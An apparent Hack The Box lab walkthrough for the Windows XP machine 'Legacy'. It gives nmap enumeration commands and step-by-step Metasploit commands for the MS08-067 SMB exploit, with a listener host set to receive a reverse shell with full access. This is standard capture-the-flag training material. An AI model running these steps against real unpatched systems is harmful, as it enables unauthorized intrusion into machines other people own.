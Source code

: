 ## Legacy Walkthrough

This is a walkthrough for the second HTB machine, Legacy. Legacy is an easy rated machine that shows how to exploit an unpatched Windows XP machine. It is still common to find machines running unpatched Windows XP, and this box highlights the importance of patch management due to how simple it is to get root access.

![Legacy (1)](https://user-images.githubusercontent.com/126024971/221581795-e7d4d2fa-d4f2-4e69-be8d-b6e7f2ffcf90.png)

---

### Enumeration

IP Address: 10.129.227.181

I started with an nmap scan of the target.

`Nmap -T4 -A 10.129.227.181`

The scan found three open ports:

135 - msrpc

139 - netbios-ssn

445 - microsoft-ds

![image](https://user-images.githubusercontent.com/126024971/221582537-64f2ff71-7949-47ff-8234-f2122d9fea84.png)

The machine is also running SMB

Interestingly, the machine is running Windows XP, so exploiting the target will be simple.

Since SMB is running on a Windows XP machine, it is likely vulnerable. There is a script that nmap can use to find SMB exploits:

`Nmap -p 445 –script smb-vuln-* 10.129.227.181`

![image](https://user-images.githubusercontent.com/126024971/221583139-9e47d99c-0cc4-4956-bc8e-8c30643b6a08.png)

The script found 2 possible exploits:

MS08-067

MS17-010

The official write-up for Legacy says to use the MS08-067 exploit. MS17-010 is Eternal Blue, but the vulnerability will only run on 64 bit machines and this is a 32 bit machine (I found this out by trying to run Eternal Blue). Therefore, we will use the MS08-067 exploit.

---

### Exploitation

Run the following commands:

`Msfconsole`

`Use exploit/windows/smb/ms08_067_netapi`

`Show options`

`Set RHOSTS 10.129.227.181`

`Set LHOST YOUR-IP-ADDRESS`

`run`

After running the exploit, we get a reverse shell with root access to the machine:

![image](https://user-images.githubusercontent.com/126024971/221587957-2ef9e2a0-97f4-4e0c-af91-c741c0de1504.png)

---

### Getting the Flags

The flags were easy to locate. The user flag is held within the Desktop of the "john" account, and the root flag is on the Administrator Desktop.

![image](https://user-images.githubusercontent.com/126024971/221594384-44b28f65-0fbf-459d-81f2-6fefc0e3200e.png)

![image](https://user-images.githubusercontent.com/126024971/221594699-2ce9b699-0a25-46a6-9a1b-9fb123ee48a0.png)

